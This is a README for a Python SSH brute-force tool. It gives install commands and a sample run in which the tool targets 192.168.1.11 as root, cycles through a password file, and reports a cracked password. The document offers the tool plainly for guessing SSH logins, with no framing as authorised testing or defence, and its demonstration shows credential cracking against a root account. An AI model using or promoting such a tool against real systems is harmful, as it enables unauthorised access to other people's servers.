 # SSH-Brute-Force-Tool
 Simple SSH Brute Force Tool

## Requirements
Python 3.x<html><br></html>
paramiko==2.7.2<html><br></html>
termcolor==1.1.0

## [+] Install
```
git clone https://github.com/OctopusTR/SSH-Brute-Force-Tool && cd SSH-Brute-Force-Tool
pip3 install -r requirements.txt
```
## [+] Usage 
```
┌──(root㉿octopus)-[~]
└─# python3 sshbrute.py

[+] Hedef Adres: 192.168.1.11
[+] SSH Kullanıcı Adı: root
[*] Parola Dosyası: passwords.txt


[-] Başarısız: 12315
[-] Başarısız: 14334253
[-] Başarısız: 33345435
[-] Başarısız: kfskfksfs
[-] Başarısız: ddkskskd
[-] Başarısız: 14334253
[-] Başarısız: 5464645
[-] Başarısız: 33345435
[-] Başarısız: 675675
[-] Başarısız: ddkskskd
[-] Başarısız: 5464645
[-] Başarısız: 675675
[+] Parola Bulundu: Er83x2vkWdgEw6tT
```
